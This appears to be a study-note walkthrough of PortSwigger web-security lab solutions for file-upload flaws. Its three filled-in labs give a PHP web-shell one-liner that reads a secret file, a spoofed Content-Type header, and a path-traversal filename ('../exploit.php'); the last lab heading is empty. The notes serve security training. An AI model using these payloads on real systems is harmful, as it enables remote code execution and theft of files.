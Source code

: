 [All Of the FUV Labs](https://portswigger.net/web-security/all-labs#file-upload-vulnerabilities)

# Exploiting unrestricted file uploads to deploy a web shell
## Lab 1: [Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)
- Login to the given account > Upload an image > Observe the Request & Response in HTTP History > Prepare a web-shell php file script > Upload it > Send the Get Request to Repeater > Change the path to your file.
- php file script `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- Web shell File path: `GET /files/avatars/exploit.php HTTP/1.1`

> Web shell is a `malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests` to the right endpoint.
> A MIME type (also known as a Multipurpose Internet Mail Extension) is a standard that indicates the format of a file.

# Exploiting flawed validation of file uploads
## Lab 2: [Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)
- Login to the given account > Upload an image > (It'll not allow) > Intercept the php File upload Request > Check the `Content-Type` header > Change its value to `image/jpeg` > Send the Request (It will allow this time)
- Observe the Request & Response in HTTP History >  Send the Get Request to Repeater > Change the path to your file. 

- php file script `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- Web shell File path: `GET /files/avatars/exploit.php HTTP/1.1`

# Preventing file execution in user-accessible directories:
## Lab 3: [Web shell upload via path traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)
- Login to the given account > Upload an image > Observe the Request & Response in HTTP History > Prepare a web-shell php file script > Upload it > Send the Get Request to Repeater > Change the path to your file.
- php file script `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- Web shell File path: `GET /files/avatars/exploit.php HTTP/1.1`
> Web servers often use the filename field in multipart/form-data requests to determine the name and location where the file should be saved.
- This time the GET request will return the PHP file's content.
- Modify the `filename="../exploit.php"` in POST request of File Upload:
- ![image](https://github.com/user-attachments/assets/f5609d72-4ba5-4ec2-a68e-e5b0612ae81c)

- Observe the GET Request's response: Web shell File path: `GET /files/avatars/../exploit.php HTTP/1.1`
- ![image](https://github.com/user-attachments/assets/7b066cb1-a89a-4529-b7f4-a86762e0707b)


## Lab 4: []()






